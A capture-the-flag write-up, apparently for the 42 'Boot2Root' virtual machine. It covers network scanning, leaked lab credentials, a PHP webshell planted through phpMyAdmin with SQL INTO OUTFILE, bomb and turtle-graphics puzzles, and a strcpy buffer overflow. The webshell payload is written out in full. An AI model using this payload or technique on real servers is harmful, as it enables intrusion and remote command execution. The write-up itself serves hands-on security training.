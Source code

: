 ## Writeup 1

After downloading and setting up the machine on VirtualBox, There isn't any visible IP address on startup like other ISOs to connect easily on SSH.
This is not a big deal, we will use nmap to scan all devices on our network and their open ports. We will not scan for all possible addresses in our network because that will take a long time. And since we already know the range of IPs we want to search for (10.13.100.0 to 10.13.100.256), we will use nmap with that range: (Otherwise we can use arp to get IPs addresses on the network then nmap to scan for open ports):

```console
nmap 10.13.100.0/24
```
![Nmap report Image](url "Nmap scan")

That will show us the open ports, we notice that a host is up with open ports for ssh, ftp, *http* and *https*. That mean we can access it via our navigator
after that we use dirbuster to fuzz all available directories in the website:

![Website Image](url "Website")

We can access to the website but still we can't do much with a simple HTML page, let's try fuzzing directories with *dirb* to see if we can find any useful directory.
```console
dirb https://10.13.100.x
```

we find a /forum + other directories we will get to later
after scanning the posts in the forum, we find a thread from lmezard where there is a bunch of logs and errors, after a quick scan we can find a leaked pw : **!q\]Ej?\*5K5cy\*AJ**
we log in with lmezard:!q\]Ej?\*5K5cy\*AJ and we don't find anything that's interesting.
Our last command with dirb found a https:://10.13.100.x/webmail/ , now let's go back to the forum and get lmezard email then log with it using the same passowrd.
we will find identifiers to the database phpmyadmin **root/Fg-'kKXBj87E:aJ$**
https:://10.13.100.x/phpmyadmin/ was also a directory found, let's log into it using those credentials:
Let's try injecting a simple PHP webshell using sql:
```sql
SELECT "<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET['cmd']) {​​system($_GET['cmd']);}​​ ?> </pre></BODY></HTML>"

INTO OUTFILE '/var/www/html/forum/templates_c/cmd.php'
```
After some trial and error, all directories found with dirb are non-writable and will return an error except https://10.13.100.x/forum/templates_c/

Cool, now we can access the webshell https://10.13.100.x/forum/templates_c/cmd.php and try simple commands.

now if we see what's inside /home we'll see a file called LOOKATME that contains : **lmezard:G!@M6f4Eatau{sF"**
this isn't working in ssh but first when we ran Nmap we saw a port 21 open for ftp. We can connect to it from our machine.
```console
ftp 10.13.100.x
Name > lmezard
Password > G!@M6f4Eatau{sF"
```
we got in, let's try ls command, it doesn't work let's try passive mode
```console
ftp > pass
ftp > ls
150 Here comes the directory listing.
-rwxr-x--- 1 1001 1001 96 Oct 15 2015 README
-rwxr-x--- 1 1001 1001 808960 Oct 08 2015 fun
226 Directory send OK.
```

we use mget to get the files to our working directory
```
mget README fun
```

```
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

When we inspect the "fun" file, It's a c program with a bunch of comments and printfs of "Hahahaha Got you!!!\n", this is the main function:
```c
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```

if we try looking for getme() functions we will only find from getme8() to getme12(), the others are missing, now we the end of password and that is:

? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

now if we search for "return" we will find some commented returns those are the 7 characters left: h p e a I r t

If we assume the I is the first letter since it's uppercase + the last word will most likely be pwnage we will be left with the characters: h e a r t

I &nbsp; h &nbsp; e &nbsp; a &nbsp; r &nbsp; t &nbsp; p &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

let's trying hashing the following password and let's try ssh to laurie;

sha256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

ssh laurie@192.168.188.140
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

IT WORKED!!

<h2>Bomb:</h2><br/>

Readme:
```
	laurie@BornToSecHackMe:~$ cat README
	Diffuse this bomb!
	When you have all the password use it as "thor" user with ssh.

	HINT:
	P
	 2
	 b

	o
	4

	NO SPACE IN THE PASSWORD (password is case sensitive).
```
<br/>
1) The function phase_1 compare the line with a string predefined.

<img src="./img/phase_1.png">

> Public speaking is very easy.<br/>

2) The function phase_2 expect us to write factorial 1 to 6.

<img src="./img/phase_2.png" width="40%" height="40%">

> 1 2 6 24 120 720 <br/>

3) The function phase_3 have multiple choices:

<img src="./img/phase_3.png" width="30%" height="30%"><br/>

We already know from the readme that the 2nd param should be a 'b', that left us with 3 possible answers,<br/>after defusing the bomb we found that the right answer is:

> 1 b 214<br/>

4) The function phase_4 use Fibonacci number:<br/>

<img src="./img/phase_4.png" width="300px" height="300px"><img src="./img/phase_4_1.png" width="300px" height="300px"><br/>

But the way its implemented we need to use f(n+1) not f(n), so to get Fibonacci(10)=55 we need to pass 9.

> 9 <br/>

5) PLZ WRITE POTATO HERE 

<img src="./img/phase_5.png" width="40%" height="40%"><br/>

> 0x6f 0x70 0x65 0x6b 0x6d 0x61 = opekma (array123="isrveawhobpnutfg", newstr[i] = (&array.123)[(char)(*(byte *)(i + line) & 15)], it means each character & 0xf should equal the index in array123 so our newstr equals "giants" at the end)<br/>

6) The Function phase_6 use the input to sort 6 nodes, and then see if they are sorted in ascending order.<br/>
![](./img/phase_6_nodes_mem.png)
```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekma
4 2 6 3 1 5
```
> thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135 [BUG IN THE SUBJECT](https://stackoverflow.com/c/42network/questions/664/1628?r=SearchResults&s=1%7C12.5313#1628)

We found a file named Turtle containing line like this:
```
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
```
that look like turtle logo algorithme, by changing those french word with actual instructions we got the password for zaz.
```
lt 90
fd 50
fd 1
lt 1
```
[TURTLE LINK](https://www.transum.org/Software/Logo/Level2/Default.asp?Level=3)

<img src="./img/turtle_1.png"  width="200" height="200">
<img src="./img/turtle_2.png"  width="200" height="200">
<img src="./img/turtle_3.png"  width="200" height="200">
<img src="./img/turtle_4.png"  width="200" height="200">
<img src="./img/turtle_5.png"  width="200" height="200">

MD5 Hash of SLASH = 646da671ca01bb5d84dbb5fb2238dc8e

> zaz:646da671ca01bb5d84dbb5fb2238dc8e

We found an executable file named exploit_me, so we exploit it.
the program copy av[1] into a local variable using strcpy"NON SECURE" and then prints it using puts(&var), so we have a buffer overflow.<br/>
<img src="./img/exme_disass.png" width="60%" height=60%>

Now we have to find the lenght needed to overwrite the return address.<br/>
<img src="./img/exme_payload_len.png" width="60%" height=60%>

Test the lenght:<br/>
<img src="./img/exme_payload_test.png" width="60%" height=60%>
<img src="./img/exme_payload_test2.png" width="60%" height=60%>

Now we need to inject a [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.php) and redirect to it:<br/>
<img src="./img/exme_payload_findaddr.png" width="60%" height=60%>
<img src="./img/exme_payload_shell.png" width="60%" height=60%>





